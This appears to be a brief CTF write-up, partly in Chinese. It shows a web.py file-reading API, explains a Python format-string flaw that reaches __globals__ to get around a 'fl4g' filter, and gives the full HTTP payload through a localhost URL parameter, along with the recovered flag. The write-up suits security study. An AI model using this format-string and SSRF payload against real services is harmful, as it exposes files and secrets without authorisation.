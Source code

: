 ```python
```
/app/app.py
```python
import web
from urllib.parse import unquote
from base.readfile import *

urls = (
    '/', 'help',
    '/read/(.*)','read'
)
web.config.debug = False

class help:
    def GET(self):
        help_information = '''
        Welcome to our FMKQ api, you could use the help information below
        To read file:
            /read/file=example&vipcode=example
            if you are not vip,let vipcode=0,and you can only read /tmp/{file}
        Other functions only for the vip!!!
        '''
        return help_information

class read:
    def GET(self,text):
        file2read = readfile(text)
        if file2read.test() == False:
            return "error"
        else:
            if file2read.isvip() == False:
                return ("The content of "+ file2read.GetFileName() +" is {file}").format(file=file2read)
            else:
                vipfile2read = vipreadfile(file2read)
                return (str(vipfile2read))
if __name__ == "__main__":
    app = web.application(urls, globals())
    app.run()
```

path中不能有fl4g，但是读取flag必定会吧上一级当成path，
发现vipfile和file一样存在格式化字符串漏洞，想到构造一个f绕过对fl4g的过滤，
payload:
```http
/?url=http://localhost:8080/read/file={vipfile.__class__.__init__.__globals__[vipreadfile].__module__[9]}l4g_1s_h3re_u_wi11_rua/flag%26vipcode=uJvFXyqiHnztNQBU10TYkepKjAh7xVMfmgdS4G9r5sWa6loL&head=\&begin=%s%
```

flag:
flag{qoSF2nKvwoGRI7aJ}
